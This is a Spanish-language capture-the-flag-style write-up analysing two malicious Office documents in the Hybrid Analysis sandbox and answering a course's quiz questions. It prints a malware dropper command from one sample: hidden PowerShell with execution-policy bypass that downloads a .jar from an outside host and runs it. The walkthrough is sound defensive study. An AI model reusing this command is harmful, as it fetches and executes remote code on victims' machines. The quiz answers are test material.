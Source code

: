 ## ¿Qué es una sandbox?
Una sandbox es un entorno virtual seguro donde se ejecutan archivos, aplicaciones o URL maliciosos. Voy a estar utilizando [Hybrid Analysis](https://www.hybrid-analysis.com/) para analizar los siguientes archivos: `PO-465514-180820.doc` y `Siparis_17.xls`.

- Primero subis el archivo:

![image](https://github.com/user-attachments/assets/3343f8ac-0d42-4028-bb5e-453073e56b78)

- Luego seleccionas el Sistema Operativo en el cual sea analizado. En mi caso elegi **Windows 10**:

  ![image](https://github.com/user-attachments/assets/6e1f42bf-d8b2-4d31-8465-4daa563744e2)

- Este seria el resultado:

  ![image](https://github.com/user-attachments/assets/5e7cbb00-8ba6-4a33-9688-ab52fe69877f)

- Para ver todas las acciones que hace el archivo malicioso tenemos que dirigirnos al apartado **Incident Response**.

  ![image](https://github.com/user-attachments/assets/e33eec8b-48d5-4d9d-bdb8-7ef833a606cf)

- **Persistence**: Tecnica utilizada para mantenerse en un sistema incluso despues de reinicios.
- **Fingerprint**: Recolectar información específica sobre un sistema, red o dispositivo.
- **Evasive**: Se utiliza para evitar la detección de antivirus, firewalls o sistemas de detección de intrusos (IDS).
- **Spyware**: Tipo de software malicioso diseñado para espiar las actividades del usuario sin su consentimiento.

En el apartado de **Network Behavior** se ven las direcciones IP que interactuaron con el archivo:

![image](https://github.com/user-attachments/assets/792c553c-6474-4b59-83eb-ea9fd82b6bbf)

Si entramos a la primera direccion IP, podemos ver mucha informacion, como los detalles del archivo, indicadores maliciosos, trafico HTTP, alertas de Suricata y mas...

![image](https://github.com/user-attachments/assets/a357c93a-b3ac-4872-b687-e9cc0161002b)

>- Indicadores maliciosos
>  
> ![image](https://github.com/user-attachments/assets/32d51644-bba6-4000-ab91-f20dc2f9c110)

>- Detalles del Archivo
>  
> ![image](https://github.com/user-attachments/assets/9ed6548e-31f8-4751-afc6-c7a44fb95456)


>- Trafico HTTP
>  
> ![image](https://github.com/user-attachments/assets/c6aad64b-be5c-4254-a01b-2baf0d6d7857)

>- Alertas de Suricata
>  
>  ![image](https://github.com/user-attachments/assets/3605cb46-399f-4a40-80ea-ddcd7e2e5e06)

>- Capturas de Pantalla sobre el archivo abierto
>  
> ![image](https://github.com/user-attachments/assets/f65a3d1e-ea53-4de6-bb73-cdc2edbd52f9)
> ![image](https://github.com/user-attachments/assets/16a6af6e-4d67-4ea9-bf7a-6ec1063eb371)


---


**The file PO-465514-180820.doc is trying to make a request to a domain ending with ".kz". What is this domain?**

En el apartado de **Network Behavior** se ve la conexion que hace con el dominio `www.msbc.kz`.

![image](https://github.com/user-attachments/assets/d2a619a3-b367-4093-83bf-440e08d98b82)

---

**With which Windows tool are the connection requests made? (file:PO-465514-180820.doc)**

Con la herramienta `powershell.exe`.

![image](https://github.com/user-attachments/assets/06140ab1-949a-4fb5-9036-f398e4675876)

---

**How many addresses does the file send DNS requests to? (file:PO-465514-180820.doc)**

`5`

---

**The "Siparis_17.xls" malware document is trying to download a file. With what name does he want to save the file it is trying to download to the device?**

Al analizar el archivo me encontre con un comando muy sospechoso de powershell, el cual era el siguiente:


```
/c powershell -executionpolicy bypass -W Hidden -command "& { (new-object System.Net.WebClient).DownloadFile(\"http://hocoso.mobi\" ,\" %temp%\\6LeGwKmrm.jar\") }" & %temp%\\6LeGwKmrm.jar
```



## Codigo explicado

>```(new-object System.Net.WebClient).DownloadFile:```
>
>- Crea un objeto de tipo WebClient para realizar descargas desde una URL.

> ```DownloadFile("http://hocoso.mobi", "%TEMP%\\6LeGwKmrm.jar"):```
>- Descarga un archivo desde la URL http://hocoso.mobi.

Y por ultimo guarda el archivo descargado en la carpeta temporal del sistema (%TEMP%) con el nombre `6LeGwKmrm.jar`.

Por lo que la respuesta es: `6LeGwKmrm.jar`.


- Al finalizar con el ultimo reto del curso me dieron la siguiente Certificacion:

![Screenshot From 2025-01-18 19-08-41](https://github.com/user-attachments/assets/272dfc67-11c6-470d-bc43-44a67f5b4bee)


Espero que hayan aprendido mucho de este Writeup, se vienen mas!









